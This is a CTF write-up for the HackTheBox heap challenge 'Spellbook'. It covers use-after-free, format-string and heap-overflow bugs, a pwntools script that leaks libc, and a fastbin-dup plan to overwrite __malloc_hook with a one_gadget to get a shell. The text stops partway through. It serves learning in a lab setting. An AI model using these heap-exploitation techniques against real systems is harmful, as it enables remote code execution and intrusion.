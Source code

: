 # Spellbook
> Write-up author: jon-brandy

## Lessons Learned:
- Leak main arena address by freeing a chunk to unsorted bin.
- Utilizing Heap Overflow for fastbin attack lead to RCE.

## DESCRIPTION:
In this magic school, there are some spellbound books given to young wizards where they can create and store the spells they 
learn throughout the years. There are some forbidden spells that can cause serious damage to other wizards and are not allowed. 
Beware what you write inside this book. Have fun, if you are a true wizard after all..

## HINT:
- NONE

## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/079264de-f052-44f2-bbc2-994e89cc9ae8)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ac148f78-c617-47bd-bc9c-dbd02fe1facd)


2. Upon reviewing the main() functions, we found 4 function call that seems to be our interest. Those are **add()**, **delete()**, **edit()**, and **show()**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3dd271bb-f89a-4e64-bdf3-57a392a7be7b)


3. Great! Let's review the **add()** function first.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/58851af2-e2d8-42e6-992a-b16cff1399f7)


4. Based from the code above, everytime we allocate a chunk and it's size, a new chunk with 0x30 sized field is also created. Let's prove that by allocate a small size of chunk.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/911fbc71-1d53-49dd-9d58-d338f3e91caa)


5. Now let's review the **delete()** function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf0bd5df-e0ce-45da-b923-29c49a2f351c)


6. Noticed the **__ptr** and **__ptr->sp** is freed but is not set to NULL afterwards. Hence we can still use the chunk later, it's introduce **Use After Free** vuln.
7. Remembering at the **add()** function, we can allocate up to 1000 bytes and there is Use After Free vuln at the **delete()** function. We can leak main arena libc address by freeing size above a fastbin range, so it shall fell to the unsorted bin. Using UAF, we might could obtain RCE.
8. Now let's review the **show()** function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d269956-3cca-4a3b-893b-f56bcd0600ef)


9. Nothing interesting here, it just prints all the data we sent before.
10. BUT, it introduces another vuln. A Format Strings Bug (FSB).
11. We can use an alternate way to leak libc address, by using this vuln.
12. Now let's analyze the **edit()** function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/041c506d-dcb5-4d9a-a7af-dc716ce2aa05)


13. Found a heap overflow vuln at the second input, remembering the smallest size of chunk we can allocate using malloc is 0x20 sized field. Hence if we allocate above 0x30 sized field and we use **edit()** function to fill our chunk again but it only accepts 0x30, it triggers heap overflow then and we can overwrite metadata of chunk that are adjacent with it.
14. Great! Seems we already identified all the vuln, our objective is to do fastbin attack (fastbindup) which lead to RCE.
15. Let's start by writing the main arena's libc address to the unsorted bin. I allocate 0x200 chunk's size to make sure it outside of the fastbin range so it fell to unsorted bin when freed.

> TEMPORARY SCRIPT

```py
from pwn import *
import os
os.system('clear')

exe = './spellbook'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'INFO'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def malloc(index: int, input_type: bytes, size: int, data: bytes):
    sh.sendlineafter(b'>> ', b'1')
    sh.sendlineafter(b'entry: ', str(index))
    sh.sendlineafter(b'type: ', input_type)
    sh.sendlineafter(b'power: ', str(size))
    sh.sendlineafter(b': ', data)

def show(index: int):
    sh.sendlineafter(b'>', b'2')
    sh.sendlineafter(b':', f'{index}')

def edit(index: int, input_type: bytes, data: bytes):
    sh.sendlineafter(b'>> ', b'3')
    sh.sendlineafter(b'entry: ', str(index))
    sh.sendlineafter(b'type: ', input_type)
    sh.sendlineafter(b': ', data)

def free(index: int):
    sh.sendlineafter(b'>> ', b'4')
    sh.sendlineafter(b'entry: ', str(index))

sh = start()

malloc(0, b'A' * 8, 0x200, b'A' * 8)
malloc(1, b'B' * 8, 0x68, b'B' * 8) # allocate another small junk to prevent consolidation with the top chunk.

free(0)
show(0)

gdb.attach(sh)

sh.interactive()
```

> RESULT - It fell to unsorted bin and not consolidate with the top chunk.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0c58b24a-6bb0-40a2-8714-a11087e5c191)


16. Remember that it also freed 0x30 sized chunk to the fastbin.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/08987bcb-c4ee-45bf-a00b-64c722fb2415)


17. By showing the data chunk at index 0, we can obtain the libc main arena address.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7c48594f-7eee-4db1-bde1-e4292945ed14)


> UNPACK RESULT & LIBC BASE CALCULATION

```py
sh.recvuntil(b':')
sh.recvuntil(b':')

get = unpack(sh.recvline().strip().ljust(8, b'\x00'))
log.success(f'MAIN ARENA --> {hex(get)}')

## Calculating libc base.

libc.address = get - 0x3c4b78
log.success(f'LIBC BASE --> {hex(libc.address)}')
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ca65bb28-f0b0-43e6-83e4-8efad5fc043d)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/eaf26c75-da6e-4c0c-80bc-72fad92849a3)


18. Now let's set up our fastbin attack. We can start by allocate another chunk with 0x68 size field (it's the size that fit the libc.sym.system).
19. Then free chunk index 2 and 1.

> RESULT - Chunk index 2 and 1 fell to the unsorted bin.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9cb3a65e-18ce-4434-ac93-1f55a0988b10)


20. Great! Now let's utilize the heap overflow vuln to overwrite the FD of chunk 2 to **__malloc_hook()**.
21. But to do this, we need to identify the correct offset, because we need to have 0x7f as the size field (because will be used to drop libc.sym.system or one_gadget).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cd1191e8-1ee2-457d-85e4-5b452d266c19)


22. It's NULL, let's traverse up gain the correct offset.
23. Long story short, found the correct offset at **-35**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b25ad19a-e644-4e5f-b75d-b1ab69ba4886)


24. Anyway there's an alternative way to obtain the correct offset, by substracting the **__malloc_hook()** with fake fast chunk.

> using fake fast chunk

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/829372e3-874f-4b90-a1e1-559e3e25eadf)


25. However it's clear that the offset should be **-35**. Let's edit the second chunk and modify the data chunk to **__malloc_hook() - 35**.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8a2a0e34-8df7-4e65-a4f5-ef4943169a09)


26. Alternatively, we can check the FD of it's chunk.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8b077fef-be09-43f8-b1c5-18d8750a40f6)


27. The FD is already filled with **__malloc_hook() - 35**.
28. However I forgot to change our chunk size at index 1 to other than 0x68 (so it does not interfere with our RCE setup), this time let's change it to 24, so it fell to 0x20 fastbin and not 0x70.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d5f39269-6053-4950-bc58-ec33e90fec4e)


30. Great! Now let's allocate 1 junk chunk until we reached chunk **__malloc__hook() - 35**. 
31. Now this time, after we write **__malloc_hook()-35** to the 0x70 bin, we want to overwrite it to `system("/bin/sh")` using one_gadget.
33. So then, at the time we want to request malloc, shell is dropped.
33. AGAIN, we need to identify the correct offset to drop one_gadget.
34. The simplest way to find the offset is by allocting another 1 junk data with cyclic pattern, it shall fell to segfault anyway if we allocate 0x68 and sends 0x67.

> RESULT


